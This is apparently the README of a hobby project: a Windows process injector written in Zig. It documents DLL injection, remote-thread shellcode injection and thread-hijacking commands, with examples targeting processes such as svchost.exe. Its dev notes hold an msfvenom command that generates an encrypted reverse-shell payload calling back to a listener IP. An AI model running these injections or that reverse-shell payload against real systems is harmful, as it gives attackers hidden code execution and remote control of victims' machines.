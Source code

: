 # ZInjector

Simple Process injector for Windows (for now) written in Zig.


> [!NOTE]
> This is my first project in Zig, so the code is pretty rough. My goal is to learn Zig and perform process injection. I haven't decided what to implement yet, but the first steps are to learn Zig and carry out a simple process injection attack on Windows.

## Usage

### General syntax

```sh
zinjector <subcommand> [OPTIONS]
```

Most common:

* `zinjector --help` — general help
* `zinjector <subcommand> --help` — help for a subcommand

---

### Subcommands

#### `dll`

Performs a DLL injection into the target process.

Syntax:

```sh
zinjector dll --dll_path <path> (--pid <PID> | --process_name <name>)
```

Options:

* `--dll_path, -d` *(required)* — path to the DLL (e.g. `C:\tools\payload.dll`)
* `--pid, -p` — numeric PID of the target process
* `--process_name, -n` — executable name of the target process (e.g. `notepad.exe`) (case insensitive)

Examples:

```sh
zinjector dll -d "C:\payloads\hook.dll" -p 1234
zinjector dll -d ./payload.dll -n notepad.exe
```

Notes:

* Provide **either** `--pid` **or** `--process_name`. If both are provided, behavior depends on implementation (prefer PID for precision).
* Ensure the DLL architecture (x86/x64) matches the target process architecture.
* Administrative privileges may be required.

---

#### `thread`

Creates a remote thread in the target process and runs an in-memory payload (shellcode).

Syntax:

```sh
zinjector thread (--pid <PID> | --process_name <name>)
```

Options:

* `--pid, -p` — numeric PID of the target process
* `--process_name, -n` — executable name of the target process (case insensitive)

Examples:

```sh
zinjector thread -p 4321
zinjector thread -n Notepad.exe
```

Notes:

* The payload (shellcode) must be provided or obtained according to the implementation (file, stdin, embedded).
* Verify architecture and calling convention compatibility.
* Elevated privileges may be necessary.

---

#### `hijacking`

Performs thread hijacking: suspends a target thread, modifies its context, and resumes it to execute the payload.

Syntax:

```sh
zinjector hijacking --pid <PID>
```

Options:

* `--pid, -p` — numeric PID of the target process (recommended)

Examples:

```sh
zinjector hijacking -p 5555
```

---

### Full examples

```sh
# Inject DLL by PID
zinjector dll -d "C:\tools\inject.dll" -p 1010

# Run shellcode via remote thread by process name
zinjector thread -n svchost.exe

# Hijack thread in process
zinjector hijacking -p 2020
```

---

## Some cool resource for learning Zig and Process Injection

- [Zig Guide](https://zig.guide/)
- [Zig Standard Library](https://ziglang.org/documentation/master/std/)
- [LearnXInYMinutes](https://learnxinyminutes.com/zig/)
- [Zig book](https://pedropark99.github.io/zig-book/)
- [Process Injection Techniques](https://www.ired.team/offensive-security/code-injection-process-injection)
- [MITRE](https://attack.mitre.org/techniques/T1055/)
- [DLL Injector C++](https://github.com/leetCipher/Malware.development/tree/main/dll-injector)
- [Cool cheasheet (zig_in_depth)](https://codeberg.org/dude_the_builder/zig_in_depth)
- https://github.com/marlersoft/zigwin32/tree/main
- https://raw.githubusercontent.com/marlersoft/zigwin32/refs/heads/main/win32/everything.zig
- https://black-hat-zig.cx330.tw/

### Legal and safety warning

These techniques modify other processes and can be used maliciously. Use only on machines and processes for which you have explicit authorization. The author assumes no responsibility for misuse.

## Dev

- Zig Version: 0.15.2
- OS: Arch Linux
- IDE: Zed
- LSP: Zls

Deps for cross-compiler on linux:  mingw-w64-headers,mingw-w64-gcc

## Todo:

- [x] PoC
- [x] Resolution of relative path to absolute path
- [x] Search process by name
- [x] Implement arguments parsing
- [x] Thread Remote creation with shellcode injection
- [ ] SetWindowHookEx Code Injection
- [ ] ...

## Command for dev/testing:

- Compile: `zig build -Dtarget=x86_64-windows -Dport=8080 -Dipv4=172.19.192.194 -Doptimize=ReleaseSmall --summary all`
- Test: `zig build test --summary all`
- Shellcode generator: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.118 LPORT=8080 -f zig --encrypt xor --encrypt-key a`
